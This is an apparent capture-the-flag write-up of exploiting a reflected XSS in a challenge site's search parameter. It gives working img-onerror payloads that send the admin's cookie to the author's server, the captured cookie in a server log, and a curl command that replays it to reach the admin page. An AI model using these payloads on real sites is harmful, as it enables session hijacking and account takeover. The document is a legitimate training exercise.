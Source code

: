 # Info

The challenge brings us back to a site.
Let's try a little ...
Ok, when we do a search, the search is rewritten in the html code. So let's try an xss payload just to try it out.

OK! It is therefore an xss flaw.

Let's exploit.

The objective is to redirect the administrator, (who will click on our link that we will send him in the support section), to our own server using an html request and who will give us his cookie. Once his cookie has been recovered, we can pretend to be him and then connect to the admin area (see the cURL part) 

(Below some tests until my good one) 


# Payload XSS for the PoC:
https://searchme.0xhorizon.eu/?search=%22%3Cimg%20src=x%20onerror=%27alert(1)%27%3E%22


# Payload to redirect:
### Doesn't work --> probably cause of " which break the payload
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='window.location="http://ip_of_my_aws_server:8888?hello="+document.cookie'>"`

### trying to correct it, BUT we can't add something
`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello="+document.cookie)'>"`

# Good Payload

In fact, we just needed to .concat instead of adding.

`https://searchme.0xhorizon.eu/?search="<img src=x onerror='alert(document.location="http://ip_of_my_aws_server:8888?hello=".concat(document.cookie))'>"`

# Response

151.80.56.168 - - [04/Nov/2021 21:00:43] "GET /?hello=login=999eb32cea9627e00939b81766f00694 HTTP/1.1" 200 -

So we get the cookie : login=999eb32cea9627e00939b81766f00694

# Let's play cURL

`curl -H "Cookie: login=999eb32cea9627e00939b81766f00694" https://searchme.0xhorizon.eu/admin.php | grep 'horiz0nx'`    

    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
    Dload  Upload   Total   Spent    Left  Speed
    100  2045  100  2045    0     0  30984      0 --:--:-- --:--:-- --:--:-- 30984
         
    <p class="card-text">My coffee machine: horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}</p>
 
## Gotcha !

horiz0nx{C00ffee__m@ch1ne__1s__y0ur_n0w}
